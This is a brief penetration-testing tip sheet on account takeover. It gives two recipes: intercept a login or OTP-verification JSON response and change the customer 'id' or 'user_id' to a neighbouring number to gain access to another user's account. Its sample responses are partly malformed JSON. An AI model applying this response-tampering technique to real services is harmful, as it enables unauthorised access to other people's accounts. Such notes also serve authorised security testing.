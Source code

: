 ### Account Takover


##### Tips 1
1. Login with original user 
2. Intercept Response 
3. **{"success":false,","data":{"address":[],"customer":{"id":318620,"full_name":null,"email":original@gmail.com","phone":"+62xxxxxxxxxxx","is_login":1,"last_login":"2021-04xxxxxxx","created_at":2021-04xxxxxx,"updated_at":2021-04xxxxx}},"message":"Csutomer login successfully"}**
4. Change **"id":"318620"** To Another ID exp.318621

---
##### Tips 2
1. Login with original user 
2. Intercept Response 
3. {"success":true,"msg":"otp is Verified successfully.","user_id":"6342","redirect_uri":"create_package"}
4. Change **"user_id":"6342"** To Another ID exp.6343
